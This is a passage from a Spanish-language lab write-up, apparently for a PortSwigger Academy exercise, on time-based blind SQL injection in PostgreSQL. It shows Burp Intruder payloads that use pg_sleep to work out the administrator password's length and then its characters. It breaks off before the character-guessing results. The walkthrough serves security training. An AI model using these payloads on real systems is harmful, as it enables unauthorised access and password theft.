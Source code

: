 ![foto](../Portswigger%20images/SQLi32.PNG)

ahora vamos a ver la longitud de su password, para esto utilizaremos el **intruder** y jugaremos con la longitud

```sql
'%3bSELECT+CASE+WHEN+(length(password)=§1§)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--
```

al mandarlo al intruder en el intento 20 tarda 5 segundos en darle la respuesta, asi que ya sabemos que la contraseña de administrator tiene una longitud de 20 caracteres:

```sql
'%3bSELECT+CASE+WHEN+(length(SUBSTRING(password,§1§,1)='§c§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--
```

![foto](../Portswigger%20images/SQLi33.PNG)

ahora con un ataque cluster bomb y el intruder vamos a intentar adivinar cada caracter de su conrtaseña:
